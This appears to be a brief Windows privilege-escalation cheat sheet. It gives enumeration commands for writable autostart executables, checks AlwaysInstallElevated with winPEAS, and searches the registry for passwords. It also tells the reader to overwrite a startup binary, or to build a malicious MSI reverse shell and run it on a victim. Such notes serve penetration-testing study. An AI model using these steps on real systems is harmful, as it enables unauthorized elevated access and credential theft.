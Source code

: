 ### Autostart exploit

1. Find autostart executables

```powershell

Get-CimInstance -ClassName Win32_StartupCommand | Select-Object -Property Command, Description, User, Location

```

OR via cmd registry

```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 

```

2. Check if they are writeable

```cmd
accesschk.exe /accepteula -wvu "PATH/to/prog.exe"

icacls <Path>
#look for (F/M/W) as full access

```

or powershell

```powershell

Get-ChildItem C:\temp\ -Recurse | Get-Acl
# now look for Everyone
```

3. Overwrite the original executable and wait for shell at system restart

### Exploiting .msi with AlwaysInstallElevated

1. Detect
`winpeas.exe  quite windowscreds`

2. If `AlwaysInstallElevated set to 1 in HKLM or HKCU!` then it is exploitable

3. create malicious msi rev shell `-f msi` and execute it on victim

### Passwords compromise

#### Passwords in Registry

Run winpeas

```powershell

winpeas.exe quiet filesinfo userinfo

```
